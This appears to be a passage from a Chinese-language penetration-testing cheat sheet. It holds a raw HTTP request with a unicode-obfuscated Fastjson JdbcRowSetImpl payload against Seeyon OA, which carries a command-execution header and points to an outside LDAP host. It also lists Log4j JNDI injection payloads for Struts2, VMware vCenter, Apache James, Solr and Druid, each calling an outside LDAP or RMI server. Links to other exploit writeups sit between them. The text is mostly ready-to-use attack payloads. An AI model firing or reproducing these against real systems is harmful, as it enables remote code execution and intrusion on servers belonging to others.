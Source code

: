  /seeyon/main.do?method=changeLocale<br /> 
```go
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
cmd: net user
Content-Length: 713

_json_params={"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://xx.xx.xx.xx","autoCommit":true}}
```
[https://96.mk/2021/07/10/19.html](https://96.mk/2021/07/10/19.html)


<a name="SqzxO"></a>
## shtml命令执行
[https://www.t00ls.cc/viewthread.php?tid=63582&extra=&page=1](https://www.t00ls.cc/viewthread.php?tid=63582&extra=&page=1)<br />

<a name="v45mx"></a>
## 最新域控漏洞
CVE-2021-42278<br />[https://mp.weixin.qq.com/s/8G4SDqe6dHqB3S47EHI7Gg](https://mp.weixin.qq.com/s/8G4SDqe6dHqB3S47EHI7Gg)

<a name="FZA71"></a>
## log4j路径合集
```java
s2:
curl -vv -H "If-Modified-Since: \${jndi:ldap://localhost:80/abc}" http://localhost:8080/struts2-showcase/struts/utils.js
http://127.0.0.1:8080/struts2-showcase/token/transfer4.action -d struts.token.name='${jndi:rmi://127.0 .0.1:1099/ylbtsl}'
http://localhost:8080/struts2-showcase/$%7Bjndi:ldap:$%7B::-/%7D/10.0.0.6:1270/abc%7D/

VMWare VCenter:
"X-Forwarded-For: \${jndi:ldap://10.0.0.3:1270/lol}"  "https://10.0.0.4/websso/SAML2/SSO/photon- machine.lan?SAMLRequest="


Apache James:
"smtp://localhost" --user "test:test" --mail-from '${jndi:ldap://localhost:1270/a}@gmail.com' --mail-rcpt 'test' --upload-file email.txt


Apache Solr:
http://localhost:8983/solr/admin/cores?action=CREATE&name=$%7Bjndi:ldap://10.0.0.6:1270/abc%7D&wt=json
solr/admin/info/system?_=${jndi:ldap://192.168.1.1/exp}&wt=json


Apache Druid:
http://localhost:8888/druid/coordinator/v1/lookups/config/$%7bjndi:ldap:%2f%2flocalhost:1270%2fabc%7d
```